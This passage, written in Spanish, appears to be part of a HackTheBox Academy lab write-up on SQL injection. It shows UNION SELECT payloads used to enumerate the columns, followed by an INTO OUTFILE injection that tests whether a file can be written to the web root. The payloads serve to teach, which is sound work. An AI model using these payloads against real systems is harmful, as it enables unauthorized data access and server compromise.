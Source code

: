 Comienzo con `'UNION SELECT 1-- -` que me da el siguiente resultado

![alt text](../assets/images/HTB_Academy_SQLi_Fundamentals/image-55.png)

Coy aumentando el numero de columnas hasta que obtengo un resultado correcto que no me devuelve error.

```sql
'UNION SELECT 1,2,3,4,5-- -
```

![alt text](../assets/images/HTB_Academy_SQLi_Fundamentals/image-56.png)

Uso esta estructura de cinco columnas para realizar consultas a la base de datos.

En primer lugar compruebo la capacidad de escritura de ficheros en el directorio de trabajo 

```sql
' union select 1,'testing file writting!',3,4,5 into outfile '/var/www/html/dashboard/test.txt'-- -
```

![alt text](../assets/images/HTB_Academy_SQLi_Fundamentals/image-63.png)
